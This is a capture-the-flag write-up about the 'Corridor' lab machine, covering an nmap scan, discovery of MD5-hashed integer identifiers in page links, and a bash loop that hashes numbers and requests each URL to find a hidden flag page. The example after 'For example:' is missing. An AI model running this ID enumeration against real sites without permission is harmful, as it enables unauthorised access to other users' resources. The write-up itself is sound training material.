

## Enumeration

The first step was to perform a basic Nmap scan against the target machine.

```bash
sudo nmap 10.129.130.171
```

**Output:**

```text
PORT   STATE SERVICE
80/tcp open  http
```

The scan revealed that only **HTTP (port 80)** was exposed, making the web application the primary attack surface.

---

## Web Enumeration

Opening the website showed nothing more than a static image. Since there was no obvious functionality, I inspected the page source.

Inside the HTML source, I discovered several links pointing to paths that looked like random hexadecimal strings.

Visiting any of these URLs returned the same HTML snippet, suggesting that the application was retrieving content based on those values.

---

## Identifying the Hashes

The hexadecimal strings resembled cryptographic hashes. To verify this, I submitted one of them to CrackStation.

The hashes were identified as **MD5 hashes of the numbers 0–14**.

For example:



This suggested the application was using the MD5 hash of an integer as the resource identifier.

---

## Exploitation

To determine whether additional hidden resources existed, I generated MD5 hashes for a wider range of integers and requested each corresponding endpoint.

```bash
#!/bin/bash

BASE="http://10.129.130.171/"

for i in {0..100}; do
    hash=$(echo -n "$i" | md5sum | awk '{print $1}')
    response=$(curl -s "${BASE}${hash}")

    # Print only if the response is different from "Not Found"
    if [[ "$response" != "Not Found" ]]; then
        echo "[$i] $hash"
        echo "$response"
        echo "--------------------"
    fi
done
```

The script:

1. Iterates through the numbers **0–100**.
    
2. Computes the **MD5 hash** of each number.
    
3. Sends a request to `http://<target>/<md5-hash>`.
    
4. Prints any response that is different from `"Not Found"`.
    

- This successfully uncovered an additional hidden endpoint containing the flag.

```[0] cfcd208495d565ef66e7dff9f98764da
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.0/css/bootstrap.min.css"
        integrity="sha384-9aIt2nRpC12Uk9gS9baDl411NQApFmC26EwAOH8WgZl5MYYxFfc+NcPb1dKGj7Sk" crossorigin="anonymous">
    <title>Corridor</title>

    <link rel="stylesheet" href="/static/css/main.css">
</head>

```
- Launching this endpoint, we found the flag.

---

## Summary

- Enumerated the target with **Nmap**.
    
- Identified **HTTP** as the only exposed service.
    
- Inspected the HTML source and discovered MD5-like identifiers.
    
- Verified the hashes corresponded to integers using CrackStation.
    
- Brute-forced additional MD5 values by hashing integers.
    
- Retrieved the hidden resource and obtained the flag.